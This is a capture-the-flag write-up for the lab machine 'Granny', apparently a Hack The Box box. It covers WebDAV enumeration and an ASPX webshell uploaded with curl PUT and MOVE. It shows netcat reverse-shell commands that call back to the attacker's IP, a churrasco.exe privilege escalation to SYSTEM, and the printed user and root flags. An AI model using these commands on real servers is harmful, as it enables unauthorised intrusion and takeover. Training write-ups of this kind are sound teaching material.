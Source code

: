![Granny.PNG](/assets/Machines/Easy/Granny/Granny.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.15
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.15
```

**Output**
```bash
PORT   STATE SERVICE
80/tcp open  http
```

3. Search more information about web page
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| nmap -sCV -p80 10.10.10.15 -oN version
```

**Output**
```bash
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Sat, 14 Jan 2023 17:16:16 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

* The service is **Internet Information Services**
* Some methods are exposed, this is so dangerous!

4. For upload a file  to web site you can use this method:
* **PUT:** `curl -s -X PUT http://10.10.10.15/<File name> -d @<File>`

5. Try to upload a file for testing
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| cat test.txt   
This is a test file. :)
```

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| curl -s -X PUT http://10.10.10.15/test.txt -d @test.txt
```

File in website

* **URL:** `http://10.10.10.15/<file name>`

![test.PNG](/assets/Machines/Easy/Granny/test.PNG)


6. You can use `davtest` to testing files we can upload
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| davtest -url http://10.10.10.15
```

**Output**
```bash
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.cfm
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.html
PUT     asp     FAIL
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.php
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.jhtml
PUT     cgi     FAIL                                                           
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.pl
PUT     aspx    FAIL
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.jsp
PUT     shtml   FAIL
```

* **.aspx** files are generate automatically for the server, if can upload this types of files we can execute commands.


7. We don't upload .aspx files in this case we can upload a shell **.aspx** (In Kali: /usr/share/webshells/aspx/cmdasp.aspx) but, change the extension file like this:

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| curl -s -X PUT http://10.10.10.15/shell.txt -d @cmdasp.aspx
```

8. We can change the extension with other option **MOVE**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| curl -s -X MOVE -H "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt
```

9. Now, access final file and ...

![aps.PNG](/assets/Machines/Easy/Granny/aps.PNG)

10. To get a reverse shell we need [nc.exe](https://eternallybored.org/misc/netcat/)
    
First, create a smbserver to share nc.exe 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| impacket-smbserver Test $(pwd) -smb2support
```

Then, execute this command in webshell

* **Command:** `\\<Tun0 IP>\Test\nc.exe -e cmd <Tun0 IP> <Port>`


**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


---
---
---
### **Privileges Escalation** 💀

1. Search information about windows version

```bash
c:\windows\system32\inetsrv>systeminfo                                                                                                 
Host Name:GRANNY                                                 
OS Name: Microsoft(R) Windows(R) Server 2003, Standard Edition
```

2. Search about privileges

```bash
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

3. Search for any exploit uses **SeImpersonatePrivilege** and **Windows Server 2003** [Exploit](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

4. Download this executable and create againa a **smbserver** and download in target machine.


* To download in target machine
```cmd
C:\WINDOWS\Temp\Exploit>copy \\10.10.14.29\Test\churrasco.exe churrasco.exe
```

5. Execute this exploit 
```bash
C:\WINDOWS\Temp\Exploit>.\churrasco.exe -d "whoami"

nt authority\system
```

6. Execute a commando to get a reverse shell how autority\system
```bash
C:\WINDOWS\Temp\Exploit>.\churrasco.exe -d "\\10.10.14.29\Test\nc.exe -e cmd 10.10.14.29 4444"
```

**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─# rlwrap nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.15] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

7. Cat user and root flag
* User flag
```cmd
C:\Documents and Settings>type Lakis\Desktop\user.txt
700c5dc163014e22b3e408f8703f67d1
```

* Root flag
```cmd
C:\Documents and Settings>type Administrator\Desktop\root.txt
aa4beed1c0584445ab463a6747bd06e9
```